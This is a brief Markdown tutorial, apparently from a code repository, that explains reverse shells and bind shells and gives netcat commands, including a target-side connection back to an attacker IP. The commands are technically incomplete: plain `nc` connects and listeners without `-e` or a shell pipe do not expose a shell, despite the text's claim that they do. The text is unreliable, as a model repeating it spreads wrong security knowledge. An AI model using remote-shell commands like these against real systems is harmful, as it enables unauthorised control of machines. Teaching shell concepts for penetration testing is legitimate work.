 ```yaml
---
title: Reverse shells and bind shells
description: An introduction to reverse shells and bind shells using netcat.
tags:
  - cybersecurity
  - linux
---
```


Reverse shells and bind shells are types of network connections used in hacking and penetration testing.

A reverse shell is when the attacker makes a target computer connect back their own computer, where they can then control the target's shell. To do this, the attacker uses special tools to set up a "listener" on the attacking computer, which waits for the target to connect.

In contrast, a bind shell is when a attacker makes the target computer run a "listener" directly, that allows the attacker to connect and control it.

A reverse or bind shell is usually established after a target computer has been exploited. In this article we will not be discussing how to exploit a target, but we will be covering how to establish a reverse or bind shell using a tool called netcat.

## Netcat

Netcat is a command-line tool used for network communication. It can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system.

One of netcat's main advantages is its wide availability. Netcat is preinstalled on many Linux distributions, and it can be also installed on Windows.

When establishing a **reverse shell**, we need to start a listener on the attacking computer, and then connect to it from the target computer.

We can set up the listener on the attacking computer with `nc -lvnp <PORT>`, e.g. `nc -lvnp 4444`.

The `-lvnp 4444` options are:

- `l` = listen mode
- `v` = verbose mode
- `n` = numeric only (IP address), don't use DNS
- `p 4444` = listen on port `4444`

Now, we need connect to the listener from the target computer. To do this, we use `nc <ATTACKER-IP> <PORT>`, e.g. `nc 10.10.20.20 4444` if the attacker's IP is `10.10.20.20` and the attacker is listening on port `4444`.

Once the connection is established, we will be able to send shell commands to the target's shell from the attacker's computer! 🎉

When establishing a **bind shell**, we need to start a listener on the target computer, and then connect to it from the attacking computer.

Set up the the listener on the target computer with `nc -lvnp <PORT>`, and then connect to the listener from the attacking computer with `nc <TARGET-IP> <PORT>`.

When setting up reverse and binding shells, keep in mind:

- The port on the listener can be blocked by firewalls, so be sure to find a port that is open.
- Administrative permissions (i.e. `sudo`) are needed when listening on a port below `1024`.
